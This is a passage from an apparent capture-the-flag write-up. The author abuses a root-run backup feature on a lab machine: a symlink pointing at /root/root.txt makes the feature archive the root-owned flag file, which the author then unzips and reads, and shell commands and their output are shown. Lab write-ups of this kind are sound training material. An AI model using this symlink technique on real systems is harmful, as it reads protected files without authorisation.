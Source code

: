     daniel@hawk:~/.a$ ls -la
    total 12
    drwxrwxr-x 2 daniel daniel 4096 Aug  2 17:45 .
    drwxr-xr-x 6 daniel daniel 4096 Aug  2 17:44 ..
    lrwxrwxrwx 1 daniel daniel   14 Aug  2 17:45 t.trace.db -> /root/root.txt



Next, I'll tell backup to backup that directory:

![](/img/1533232101327.png)

On hitting submit, it tells me it processed my file:

![](/img/1533232117902.png)

And I'll find the file where I told it to be:



    daniel@hawk:~/.a$ ls -la a
    -rw-r--r-- 1 root root 175 Aug  2 17:45 a
    daniel@hawk:~/.a$ file a
    a: Zip archive data, at least v2.0 to extract



On bringing it back to my box, I get the flag:



    root@kali# unzip -l backup.zip
    Archive:  backup.zip
      Length      Date    Time    Name
    ---------  ---------- -----   ----
           33  2018-08-02 17:45   root/root.txt
    ---------                     -------
           33                     1 file

    root@kali# unzip backup
    Archive:  backup.zip
      inflating: root/root.txt
    root@kali# cat root/root.txt
    54f3e840...
